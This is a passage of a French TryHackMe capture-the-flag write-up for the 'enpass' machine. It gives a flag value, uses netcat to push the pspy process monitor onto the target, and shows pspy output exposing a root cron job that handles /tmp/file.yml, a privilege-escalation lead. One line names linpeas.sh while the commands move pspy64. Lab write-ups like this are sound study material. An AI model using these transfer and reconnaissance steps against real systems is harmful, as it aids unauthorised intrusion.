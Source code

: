 On a le premier flag qui est : 1c5ccb6ce6f3561e302e0e516c633da9   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64 -nv
2021-10-05 20:49:48 URL:https://github-releases.githubusercontent.com/120821432/d54f2200-c51c-11e9-8d82-f178cd27b2cb?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20211005%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20211005T184947Z&X-Amz-Expires=300&X-Amz-Signature=55092a3f453a3bc453b7bd9c5fc0deb14278d42797d5eadd8ef9746900644780&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=120821432&response-content-disposition=attachment%3B%20filename%3Dpspy64&response-content-type=application%2Foctet-stream [3078592/3078592] -> "pspy64" [1]

---------------

$ cd /tmp
$ nc -lp 1234 > pspy64

---------------

tim@kali:~/Bureau/tryhackme/write-up$ nc enpass.thm 1234 < pspy64 
$ chmod u+x pspy64

```

On transfère linpeas.sh sur la machine cible.  

```bash
$ ./pspy64	
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     
...
2021/10/05 18:52:18 CMD: UID=0    PID=1000   | /usr/lib/policykit-1/polkitd --no-debug 
2021/10/05 18:52:18 CMD: UID=0    PID=10     | 
2021/10/05 18:52:18 CMD: UID=0    PID=1      | /sbin/init 
2021/10/05 18:52:52 CMD: UID=0    PID=22660  | ps -e -o pid,ppid,state,command 
2021/10/05 18:53:01 CMD: UID=0    PID=22666  | /bin/sh -c cd /opt/scripts && sudo /usr/bin/python /opt/scripts/file.py && sudo rm -f /tmp/file.yml 
2021/10/05 18:53:01 CMD: UID=0    PID=22665  | /bin/sh -c cd /tmp && sudo chown root:root /tmp/file.yml 
2021/10/05 18:53:01 CMD: UID=0    PID=22664  | /bin/sh -c cd /opt/scripts && sudo /usr/bin/python /opt/scripts/file.py && sudo rm -f /tmp/file.yml 
2021/10/05 18:53:01 CMD: UID=0    PID=22663  | /bin/sh -c cd /tmp && sudo chown root:root /tmp/file.yml 
2021/10/05 18:53:01 CMD: UID=0    PID=22662  | /usr/sbin/CRON -f 
2021/10/05 18:53:01 CMD: UID=0    PID=22661  | /usr/sbin/CRON -f 
2021/10/05 18:53:01 CMD: UID=0    PID=22667  | sudo chown root:root /tmp/file.yml 
2021/10/05 18:53:01 CMD: UID=0    PID=22668  | sudo /usr/bin/python /opt/scripts/file.py 
2021/10/05 18:53:54 CMD: UID=0    PID=22669  | 
2021/10/05 18:54:01 CMD: UID=0    PID=22675  | /bin/sh -c cd /opt/scripts && sudo /usr/bin/python /opt/scripts/file.py && sudo rm -f /tmp/file.yml 
2021/10/05 18:54:01 CMD: UID=0    PID=22674  | /bin/sh -c cd /tmp && sudo chown root:root /tmp/file.yml 
2021/10/05 18:54:01 CMD: UID=0    PID=22673  | /bin/sh -c cd /opt/scripts && sudo /usr/bin/python /opt/scripts/file.py && sudo rm -f /tmp/file.yml 
```
